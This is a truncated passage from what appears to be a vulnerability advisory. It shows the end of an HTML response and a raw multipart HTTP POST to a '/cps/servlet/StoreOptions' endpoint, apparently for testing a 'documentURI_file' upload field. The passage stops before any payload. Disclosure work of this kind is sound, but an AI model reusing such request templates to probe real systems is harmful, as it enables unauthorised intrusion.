 ```
                    <label class="control-label">Job ID</label>
                </div>
                <div class="col-md-3 text-center">
                    1001236
                </div>
            </div>
        </div>
    </div>

	
</div>
    </body>
</html>
```



### - documentURI_file (content)

<img src="documenturi_file1.png">

##### Request:

```
POST /cps/servlet/StoreOptions HTTP/1.1
Host: 172.17.20.183
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.20.183/cps/SelectOptions?jobId=561829786
Content-Type: multipart/form-data; boundary=---------------------------8402911309205592381366920078
Content-Length: 3450
Cookie: JSESSIONID=0C0E333C8523D4EBBBB932B109C06387; locale=en_US
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------8402911309205592381366920078
Content-Disposition: form-data; name="redirectUrl"

SelectOptions2
-----------------------------8402911309205592381366920078
Content-Disposition: form-data; name="jobId"

561829786
-----------------------------8402911309205592381366920078
Content-Disposition: form-data; name="documentURI_file"; 
Content-Type: text/plain
```